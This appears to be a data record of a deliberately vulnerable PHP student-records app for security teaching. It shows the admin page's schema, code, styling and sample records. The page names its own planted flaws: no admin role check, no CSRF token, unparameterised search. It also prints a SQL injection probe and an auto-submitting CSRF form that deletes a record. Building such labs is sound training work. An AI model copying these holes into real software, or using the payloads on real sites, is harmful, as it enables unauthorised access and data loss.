
The app's page /admin.php (signed in) with its own data.
### tables this page shows
CREATE TABLE IF NOT EXISTS mahasiswa (
    id INT AUTO_INCREMENT PRIMARY KEY,
    nama VARCHAR(100) NOT NULL,
    nim VARCHAR(20) NOT NULL UNIQUE,
    email VARCHAR(100) NOT NULL UNIQUE,
    password VARCHAR(255) NOT NULL,
    prodi VARCHAR(50) NOT NULL,
    semester INT NOT NULL,
    status ENUM('Aktif', 'Lulus', 'Cuti', 'Non-Aktif') DEFAULT 'Aktif',
    total_sks INT DEFAULT 0,
    ipk DECIMAL(3,2) DEFAULT 0.00,
    catatan_khusus TEXT NULL,
    foto_profil VARCHAR(255) DEFAULT 'default.jpg',
    role ENUM('mahasiswa', 'admin') DEFAULT 'mahasiswa',
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    updated_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP
);

### admin.php (the view, shortened to what this page needs)
<?php
$conn = getConnection();
$mahasiswa_query = "SELECT * FROM mahasiswa ORDER BY id";
$mahasiswa_result = $conn->query($mahasiswa_query);
$all_mahasiswa = [];
while ($row = $mahasiswa_result->fetch_assoc()) {
    $all_mahasiswa[] = $row;
}
$search = $_GET['search'] ?? '';
?>
<!DOCTYPE html>
<html lang="id">
<head>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/css/bootstrap.min.css" rel="stylesheet">
    <link href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.5.1/css/all.min.css" rel="stylesheet">
</head>
<body>
    <nav class="navbar navbar-expand-lg navbar-dark">
        <div class="container">
            <a class="navbar-brand" href="dashboard.php">
                <i class="fas fa-shield-alt"></i> ADMIN PANEL
            </a>
            <div class="navbar-nav ms-auto">
                <a class="nav-link" href="dashboard.php">
                    <i class="fas fa-home"></i> Dashboard
                </a>
                <a class="nav-link" href="logout.php">
                    <i class="fas fa-sign-out-alt"></i> Logout
                </a>
            </div>
        </div>
    </nav>
    <div class="container mt-4">
        <div class="admin-header">
            <h2><i class="fas fa-users-cog"></i> Admin Panel - Data Mahasiswa</h2>
            <p class="mb-0">Kelola data seluruh mahasiswa kampus</p>
        </div>
        <div class="vulnerability-warning">
            <h5><i class="fas fa-exclamation-triangle"></i> Kerentanan Keamanan yang Ada:</h5>
            <ul class="mb-0">
                <li><strong>Broken Access Control:</strong> Tidak ada validasi role admin - siapa saja yang login bisa akses!</li>
                <li><strong>CSRF:</strong> Tidak ada CSRF token pada form delete</li>
                <li><strong>SQL Injection:</strong> Search tidak menggunakan prepared statement</li>
                <li><strong>No Confirmation:</strong> Delete tanpa konfirmasi</li>
            </ul>
        </div>
        <div class="table-container mb-4">
            <form method="GET" class="row g-3">
                <div class="col-md-10">
                    <input type="text" class="form-control" name="search" placeholder="Cari mahasiswa (nama, NIM, email)..." value="<?= htmlspecialchars($search) ?>">
                    <small class="text-danger">⚠️ SQL Injection: Coba input: <code>' OR '1'='1</code></small>
                </div>
                <div class="col-md-2">
                    <button type="submit" class="btn btn-primary w-100">
                        <i class="fas fa-search"></i> Cari
                    </button>
                </div>
            </form>
        </div>
        <div class="table-container">
            <h4 class="mb-4">Daftar Mahasiswa</h4>
            <div class="table-responsive">
                <table class="table table-hover">
                    <thead class="table-dark">
                        <tr>
                            <th>ID</th>
                            <th>NIM</th>
                            <th>Nama</th>
                            <th>Email</th>
                            <th>Prodi</th>
                            <th>IPK</th>
                            <th>Role</th>
                            <th>Aksi</th>
                        </tr>
                    </thead>
                    <tbody>
                        <?php foreach ($all_mahasiswa as $mhs): ?>
                        <tr>
                            <td><?= $mhs['id'] ?></td>
                            <td><?= htmlspecialchars($mhs['nim']) ?></td>
                            <td><?= htmlspecialchars($mhs['nama']) ?></td>
                            <td><?= htmlspecialchars($mhs['email']) ?></td>
                            <td><?= htmlspecialchars($mhs['prodi']) ?></td>
                            <td><?= number_format($mhs['ipk'], 2) ?></td>
                            <td>
                                <span class="badge bg-<?= $mhs['role'] === 'admin' ? 'danger' : 'primary' ?>">
                                    <?= $mhs['role'] ?>
                                </span>
                            </td>
                            <td>
                                <a href="khs.php?id=<?= $mhs['id'] ?>" class="btn btn-sm btn-info">
                                    <i class="fas fa-eye"></i>
                                </a>
                                <form method="POST" class="d-inline">
                                    <button type="submit" name="delete_mahasiswa" class="btn btn-sm btn-danger">
                                        <i class="fas fa-trash"></i>
                                    </button>
                                </form>
                            </td>
                        </tr>
                        <?php endforeach; ?>
                    </tbody>
                </table>
            </div>
        </div>
        <div class="table-container mt-4">
            <h5 class="text-danger"><i class="fas fa-bug"></i> CSRF Attack Demo</h5>
            <p>Buat file HTML external dengan code berikut untuk melakukan CSRF attack:</p>
            <pre class="bg-dark text-light p-3 rounded"><code>&lt;form method="POST" action="http://localhost:8000/admin.php"&gt;
    &lt;input type="hidden" name="delete_mahasiswa" value="1"&gt;
    &lt;input type="hidden" name="mahasiswa_id" value="1"&gt;
&lt;/form&gt;
&lt;script&gt;document.forms[0].submit();&lt;/script&gt;</code></pre>
        </div>
    </div>
</body>
</html>

### admin.php (style rules this page uses)
body { background: #f8f9fa; }
.navbar { background: linear-gradient(135deg, #dc3545 0%, #c82333 100%); box-shadow: 0 2px 10px rgba(0,0,0,0.1); }
.admin-header { background: linear-gradient(135deg, #dc3545 0%, #c82333 100%); color: white; padding: 30px; border-radius: 15px; margin-bottom: 30px; }
.table-container { background: white; padding: 30px; border-radius: 15px; box-shadow: 0 5px 20px rgba(0,0,0,0.1); }
.vulnerability-warning { background: #fff3cd; border-left: 5px solid #ffc107; padding: 20px; border-radius: 10px; margin-bottom: 20px; }

### records on screen
mahasiswa: id "1", nim "2021001", nama "Budi Santoso", email "budi@kampus.ac.id", prodi "Teknik Informatika", ipk "3.20", role "mahasiswa"
mahasiswa: id "2", nim "2021002", nama "Siti Rahayu", email "siti@kampus.ac.id", prodi "Sistem Informasi", ipk "4.00", role "mahasiswa"
mahasiswa: id "3", nim "2021003", nama "Ahmad Wijaya Kusuma", email "ahmad@kampus.ac.id", prodi "Teknik Informatika", ipk "1.50", role "mahasiswa"
mahasiswa: id "4", nim "9999999", nama "Admin SIAKAD", email "admin@kampus.ac.id", prodi "Admin", ipk "0.00", role "admin"
